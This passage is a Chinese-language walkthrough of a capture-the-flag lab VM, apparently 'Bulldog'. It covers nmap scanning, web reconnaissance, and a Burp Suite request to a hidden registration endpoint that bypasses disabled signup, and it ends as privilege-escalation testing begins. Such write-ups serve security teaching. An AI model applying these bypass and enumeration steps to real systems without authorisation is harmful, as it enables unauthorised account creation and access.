 VirtualBox双击打开，默认桥接模式，运行后会在界面直接告知IP！

--------------------------------------------
--------------------------------------------
1、nmap 192.168.4.5 -p- -A

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Bulldog.social

--------------------------------------------
--------------------------------------------
2、web信息收集

访问：
http://192.168.4.5/

存在登录界面：
http://192.168.4.5/login

安全原因，不允许注册
上面测试了普通账号密码无法登录
dirb和nikto也没发现什么有用的，继续浏览！

--------------------------------------------
--------------------------------------------
3、Burpsuite绕过注册

测试加入：
{
  "name": "dayu",
  "email": "dayu@dayu.com",
  "username": "dayu",
  "password": "dayu"
}

回显：
{"success":false,"msg":"Incorrect Login"}
加了name和email后还是不行!

将post请求改为：
POST /users/register HTTP/1.1

回显：
{"success":true,"msg":"User registered"}
请求成功！

访问登录界面：
You are now logged in   ---成功登录


继续测试是否存在水平越权：再次注册dayutest
{
  "name": "dayutest",
  "email": "dayutest@dayu.com",
  "username": "dayutest",
  "password": "dayutest"
}
